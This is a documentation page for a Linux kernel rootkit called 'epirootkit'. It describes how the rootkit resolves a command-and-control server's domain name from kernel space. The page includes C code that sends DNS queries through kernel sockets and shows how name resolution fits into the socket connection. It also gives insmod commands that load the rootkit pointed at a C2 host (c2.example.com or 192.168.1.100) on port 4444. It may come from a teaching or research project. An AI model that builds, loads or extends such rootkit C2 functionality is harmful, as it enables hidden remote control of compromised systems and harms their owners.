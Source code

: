 ```yaml
---
title: "DNS Resolution"
description: "Kernel-space domain name resolution for flexible C2 connectivity"
icon: "globe"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 514
---
```


# DNS Resolution

Kernel-space DNS resolver for flexible C2 server connections using domain names.

## How It Works

1. **Detect address type** - IP vs domain name
2. **Create UDP socket** in kernel space
3. **Query 8.8.8.8:53** with A record lookup
4. **Parse response** and extract IPv4 address

## Implementation

```c
int kernel_dns_resolve(const char *hostname, u32 *ip_addr)
{
    // Create UDP socket
    sock_create(AF_INET, SOCK_DGRAM, IPPROTO_UDP, &sock);
    
    // Build DNS query packet
    dns_query = build_dns_query(hostname);
    
    // Send to 8.8.8.8:53
    kernel_sendmsg(sock, &msg, iov, 1, query_len);
    
    // Receive and parse response
    kernel_recvmsg(sock, &msg, MSG_WAITALL);
    *ip_addr = parse_dns_response(response_buf);
    
    sock_release(sock);
    return 0;
}
```

## Usage

### Domain Name Configuration
```bash
# Use domain name for C2 server
sudo insmod epirootkit.ko address=c2.example.com port=4444
```

### IP Address (bypasses DNS)
```bash
# Direct IP connection
sudo insmod epirootkit.ko address=192.168.1.100 port=4444
```

## Integration

Automatic detection in socket connection:
```c
if (!in4_pton(config.address, -1, (u8*)&server_addr.sin_addr.s_addr, -1, NULL)) {
    // Not an IP - resolve domain
    ret = kernel_dns_resolve(config.address, &target_ip);
    if (ret < 0) return ret;
    server_addr.sin_addr.s_addr = target_ip;
}
```

## Technical Details

- **Protocol**: UDP DNS queries
- **Server**: 8.8.8.8:53 (Google DNS)
- **Query type**: A records (IPv4) only
- **Buffer size**: 256 bytes
- **Fallback**: Direct IP if resolution fails

